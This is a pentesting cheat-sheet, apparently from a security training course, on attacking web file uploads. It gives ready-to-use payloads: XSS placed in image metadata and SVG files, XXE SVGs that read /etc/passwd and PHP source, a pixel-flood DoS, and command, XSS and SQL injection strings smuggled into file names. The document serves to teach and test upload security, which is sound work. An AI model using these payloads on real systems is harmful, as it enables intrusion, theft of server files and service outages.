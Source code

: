 Certain file types, like `SVG`, `HTML`, `XML`, and even some image and document files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files.

## XSS

Introduce a `Stored XSS` vulnerability to the web application by uploading maliciously crafted versions of them.

**If web applications display an image's metadata after its upload.**

```sh
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```

> When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack

XSS attacks can also be carried with `SVG` images, along with several other attacks

We can write the following to `payload.svg`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```

> Once we upload the `payload.svg` to the web application, the XSS payload will be triggered whenever the image is displayed.

## XXE

We can also include malicious XML data to  to leak the source code of the web application.

The following example can be used for an SVG image `payload.svg` that leaks the content of (/etc/passwd)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

> Once the SVG image is displayed, we should get the base64 encoded content which we can decode to read the source code.

Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like : `PDF`, `Word Documents`, `PowerPoint Documents`, among many others.

## DoS
Another possible DoS attack is:
- `Pixel Flood` attack with some image files that utilize image compression, like JPG or PNG. 

> We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

## Injections in File Name

Rename the value of filename such as

```sh
filename="file$(whoami).jpg"
filename="file`whoami`.jpg"
filename="file.jpg||whoami"
```

Use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`), which would get executed on the target's machine if the file name is disabled to them. 

Also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.